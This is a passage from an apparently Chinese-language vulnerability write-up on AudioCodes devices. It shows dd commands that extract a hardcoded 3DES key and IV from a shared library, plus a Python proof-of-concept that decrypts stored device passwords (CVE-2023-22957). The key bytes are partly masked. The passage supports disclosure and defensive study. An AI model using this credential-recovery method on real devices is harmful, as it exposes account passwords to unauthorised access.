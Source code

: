 ```plain
Extraction of the Key:
$ offset=$(python3 -c 'print(int("00000fb8", base=16))')
$ dd skip=$offset count=24 if=libac_des3.so of=key.bin bs=1

Extraction of the IV:
$ offset=$(python3 -c 'print(int("00000fb0", base=16))')
$ dd skip=$offset count=8 if=libac_des3.so of=iv.bin bs=1
```

最后，可以使用一个简单的 Python 脚本来解密 AudioCodes 设备中的加密密码：

```plain
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
import base64
from Crypto.Cipher import DES3
from binascii import unhexlify

KEY = unhexlify('604075fb########################################')
IV  = unhexlify('a3a4####35cb####')

def decrypt(ciphertext):
    ciphertext_decoded = base64.b64decode(ciphertext)
    cipher = DES3.new(KEY, DES3.MODE_CBC, iv=IV)
    plaintext = cipher.decrypt(ciphertext_decoded)
    print("plain text password: {}".format(plaintext.decode('utf-8')))


def main():
    decrypt(sys.argv[1])


if __name__ == '__main__':
    main()
$ python3 poc.py VvlZOp5/5pM=

plain text password: system
```

这种硬编码的加密密钥的使用在 SYSS-2022-052（CVE-2023-22957）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957)

### 3\. 配置文件加密

接下来，我们注意到 AudioCodes 设备的配置文件也可以完全以加密的形式存储：
